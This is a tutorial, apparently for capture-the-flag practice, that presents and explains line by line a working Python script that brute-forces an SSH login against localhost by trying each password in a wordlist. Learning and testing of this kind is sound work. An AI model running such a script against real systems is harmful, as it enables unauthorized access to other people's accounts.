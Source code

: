 ```python
from pwn import ssh
import paramiko

host = "127.0.0.1"
username = "notroot"
attempts = 0

with open("passwords.txt", "r") as password_list:
    for password in password_list:
        password = password.strip("\n")
        try:
            print("[{}] Attempting password: '{}'!".format(attempts, password))
            # Attempt to connect using pwntools' ssh
            response = ssh(host=host, user=username, password=password, timeout=1)
            if response.connected():  # Correct way to check if connection was successful
                print("[>] Valid password found: '{}'!".format(password))
                response.close()
                break
            response.close()
        except paramiko.ssh_exception.AuthenticationException:
            print("[X] Invalid password!")
        except Exception as e:
            print("[!] Exception occurred: {}".format(str(e)))
        attempts += 1

```


Let's go through the code step by step, with explanations for each line:

```python
from pwn import ssh
import paramiko
```
- **`from pwn import ssh`**: This imports the `ssh` function from the `pwntools` library, which is used to handle SSH connections. `pwntools` is commonly used for CTFs (Capture The Flag) and other security-related scripting.
- **`import paramiko`**: This imports the `paramiko` library, which is a powerful Python implementation for SSH. It's used here primarily for its exceptions.


```python
host = "127.0.0.1"
username = "notroot"
attempts = 0
```
- **`host`**: This variable stores the IP address of the target machine you want to SSH into. `"127.0.0.1"` is the loopback address, meaning it refers to the local machine.
- **`username`**: This is the username you are trying to authenticate as on the target machine.
- **`attempts`**: This is a counter to keep track of how many passwords have been tried.


```python
with open("passwords.txt", "r") as password_list:
```
- **`with open("passwords.txt", "r") as password_list`**: This line opens the file `passwords.txt` in read mode. The file is expected to contain a list of passwords, one per line. The `with` statement ensures that the file is properly closed after reading.


```python
    for password in password_list:
        password = password.strip("\n")
```
- **`for password in password_list`**: This loop iterates over each line (password) in the file.
- **`password.strip("\n")`**: This removes the newline character (`\n`) from the end of each password. This is necessary because when reading lines from a file, they typically end with a newline.


```python
        try:
            print("[{}] Attempting password: '{}'!".format(attempts, password))
```
- **`try:`**: This starts a try block, which will attempt to execute the SSH connection. If an error occurs (e.g., wrong password), the script will move to the `except` block.
- **`print("[{}] Attempting password: '{}'!".format(attempts, password))`**: This prints the current attempt number and the password being tried, which is useful for monitoring the progress of the brute force attempt.


```python
            response = ssh(host=host, user=username, password=password, timeout=1)
```
- **`response = ssh(host=host, user=username, password=password, timeout=1)`**: This line attempts to establish an SSH connection using the `ssh` function from `pwntools`. The `timeout=1` ensures that if the connection can't be established within 1 second, it will fail.


```python
            if response.connected():
                print("[>] Valid password found: '{}'!".format(password))
                response.close()
                break
```
- **`if response.connected():`**: This checks if the SSH connection was successful. `connected()` is a method provided by `pwntools` to verify the connection status.
- **`print("[>] Valid password found: '{}'!".format(password))`**: If the connection was successful, this line prints the valid password.
- **`response.close()`**: This closes the SSH connection to free up resources.
- **`break`**: This breaks out of the loop since the valid password has been found.


```python
        except paramiko.ssh_exception.AuthenticationException:
            print("[X] Invalid password!")
```
- **`except paramiko.ssh_exception.AuthenticationException:`**: This block catches the specific exception thrown when authentication fails, indicating an invalid password.
- **`print("[X] Invalid password!")`**: This prints a message indicating the password was invalid.


```python
        except Exception as e:
            print("[!] Exception occurred: {}".format(str(e)))
```
- **`except Exception as e:`**: This block catches any other exceptions that may occur, such as connection timeouts or network errors.
- **`print("[!] Exception occurred: {}".format(str(e)))`**: This prints the error message, providing information on what went wrong.


```python
        attempts += 1

```
- **`attempts += 1`**: This increments the attempt counter after each password trial.

### Summary

The code attempts to brute-force an SSH login by iterating through a list of passwords. It tries each password, checks if the connection is successful, and prints the result. Proper exception handling ensures the script doesn't crash due to common errors like invalid passwords or connection timeouts.